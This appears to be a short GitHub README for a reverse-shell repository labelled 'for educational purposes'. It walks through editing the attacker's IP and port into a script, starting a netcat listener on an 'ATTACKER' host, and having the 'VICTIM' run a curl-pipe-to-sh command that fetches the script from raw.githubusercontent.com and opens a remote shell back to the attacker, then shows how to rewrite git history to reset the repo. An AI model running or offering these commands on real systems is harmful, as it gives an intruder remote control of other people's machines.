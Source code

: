 # Reverse Shell
Please use the current source code for educational purposes.

## Setting
1. Fork Current Repository
```sh
git clone https://github.com/<<YOUR_REPOSITORY>>/reverse_shell.git
```

2. Change REMOTE_IP and REMOTE_PORT in reverse_shell file
```sh
cd <<YOUR_REPOSITORY>>
sed -i -e 's/REMOTE_IP/192.168.0.1/g' reverse_shell
sed -i -e 's/REMOTE_PORT/12345/g' reverse_shell
```

3. Git Commit and Git Push
```sh
cd <<YOUR_REPOSITORY>>
git commit -m 'Change REMOTE_IP and REMOTE_PORT(192.168.0.1:12345)' .
git push -u origin master
```

## TEST
### ATTACKER(192.168.0.1)
```sh
nc -lk 12345
```

### VICTIM(192.168.0.130)
```sh
Usage: curl https://raw.githubusercontent.com/<<YOUR_REPOSITORY>>/reverse_shell/master/reverse_shell |sh

curl https://raw.githubusercontent.com/kisec/reverse_shell/master/reverse_shell |sh
```

## RESET
```sh
cd <<YOUR_REPOSITORY>>
git reflog
git reset HEAD@{<<INIT_COMMIT_NUMBER>>}
git push origin +master

```

## Thanks
 - Reverse Shell as a Service - https://github.com/lukechilds/reverse-shell
 - Reverse Shell as a Service - https://shell.now.sh/
